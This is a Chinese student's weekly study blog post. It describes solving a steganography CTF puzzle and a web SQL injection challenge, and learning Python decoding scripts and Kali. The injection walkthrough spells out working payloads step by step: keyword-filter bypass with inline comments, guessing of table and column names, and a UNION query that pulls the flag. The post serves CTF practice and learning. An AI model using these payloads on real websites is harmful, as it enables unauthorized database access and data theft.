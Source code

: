 ```yaml
---
layout: post
title: "第十周总结"
date:  2017-04-30 14:58:44
description: "第十周总结"
tag: 总结
---
```


## 0x00 
这周把学习重点放在了python的常用脚本编写和kali的相关知识。做的CTF题有些少，但是做的比以往更细。     
通过两次组内赛发现对于web，虽然我大致能知道考察的什么，但是单凭自己的印象不查找资料就无从下手（尤其是SQL注入），所以在实验吧上找了几个注入题做，记了一道比较简单但是经典的题。

## 0x01 CTF_shiyanbarar

最低位的亲吻    
本来看题目以为是LSB，结果把图片格式用win10自带画图转换一下再用stgesolve打开会看到一个二维码，扫一下就行啦。
从这个题了解到一些BMP8位灰度图的相关知识。

*我们平时所见到的黑白照片严格来说叫灰度图，只有由纯黑和纯白两种颜色组成的图片才叫黑白照片。
[http://blog.csdn.net/okaimee/article/details/5562515](http://note.youdao.com/)

简单的SQL注入   
首先查看网页源代码
```
<html>
<head>
<title>1</title>
</head>
<body>
<div style="text-align:center">
<h2>flag<h2>
<h3>到底过滤了什么东西？<h3>
<form action="" method="get">
<input name="id" type="text"/>
<input type="submit" />
</form>
```
发现了GET方法，继续试

```
http://ctf5.shiyanbar.com/423/web/index.php?id=1
ID: 1
name: baloteli

http://ctf5.shiyanbar.com/423/web/index.php?id=2
ID: 2
name: kanawaluo

http://ctf5.shiyanbar.com/423/web/index.php?id=3
ID: 3
name: dengdeng

http://ctf5.shiyanbar.com/423/web/index.php?id=4
无返回值
```
等等，题目有提示“到底过滤了什么？”，那么一定有关键字被过滤，想想常见的关键字，挨个试试

```
http://ctf5.shiyanbar.com/423/web/index.php?id=1 and 1=1
ID: 1 1=1
name: baloteli
#and被过滤掉了
```
一个一个试太麻烦了，我就把常用的一些关键词一起写上去，这样很容易就能看出来哪些被过滤了。
```
http://ctf5.shiyanbar.com/423/web/index.php?id=1' union select or and by order from where version()
ID: 1' or version()
name: baloteli
```
知道哪些关键词被过滤之后就开始找绕过方法，多次尝试和查找资料得知，/*！关键词*/这种方法可以绕过

接下来是猜各种名字

```
猜表名
http://ctf5.shiyanbar.com/423/web/?id=' or /*!exists*/ (/*!select*/ * /*!from*/ flag ) /*!and*/ ''='

ID: ' or /*!exists*/ (/*!select*/ * /*!from*/ flag ) /*!and*/ ''='
name: baloteli

ID: ' or /*!exists*/ (/*!select*/ * /*!from*/ flag ) /*!and*/ ''='
name: kanawaluo

ID: ' or /*!exists*/ (/*!select*/ * /*!from*/ flag ) /*!and*/ ''='
name: dengdeng

猜列名
http://ctf5.shiyanbar.com/423/web/?id=' or /*!exists*/ (/*!select*/ id /*!from*/ flag ) /*!and*/ ''='
把id换成name也可以查询到
```
进行联合查询
```
http://ctf5.shiyanbar.com/423/web/?id=' /*!union*/ /*!select*/ 1,2 /*!from*/ flag /*!where*/ ''='

The used SELECT statements have a different number of columns
#两列报错，换成一列试试
```

```
http://ctf5.shiyanbar.com/423/web/?id=' /*!union*/ /*!select*/ 1 /*!from*/ flag /*!where*/ ''='

ID: ' /*!union*/ /*!select*/ 1 /*!from*/ flag /*!where*/ ''='
name: 1
#这里有一列
```

```
http://ctf5.shiyanbar.com/423/web/?id=' /*!union*/ /*!select*/ flag /*!from*/ flag /*!where*/ ''='
ID: ' /*!union*/ /*!select*/ flag /*!from*/ flag /*!where*/ ''='
name: flag{Y0u_@r3_5O_dAmn_90Od}
```

## 0x02
python一开始是跟着廖雪峰网站一步一步学的，不过发现这样学效率太低了，然后继续我学习C和C++的办法——先抄代码查资料然后自己写，果然比只看不敲会的快。
跟着写了base解码（循环嵌套）脚本，rot脚本，凯撒脚本等这些在CTF常见的几种解码。这些都是比较基础的，想找个题写个稍微复杂的脚本来着，结果发现学校CTF平台给关了，我还留了一个需要脚本的题交flag呢==、

至于kali，自己动手装了一遍，由于上周把出现的问题基本都解决完了，所以安装挺顺利的。跟着安全牛上的课程看了几节，发现讲的既啰嗦又慢，而且还扯一些别的，觉得还是找找别的资源看+动手尝试比较好

下周目标：继续python脚本学习，kali的基本操作，web_php部分


签到终于连上了，本来打算周六交的结果一直刷新不出来，不敢再写啥了，赶紧交了再说==、










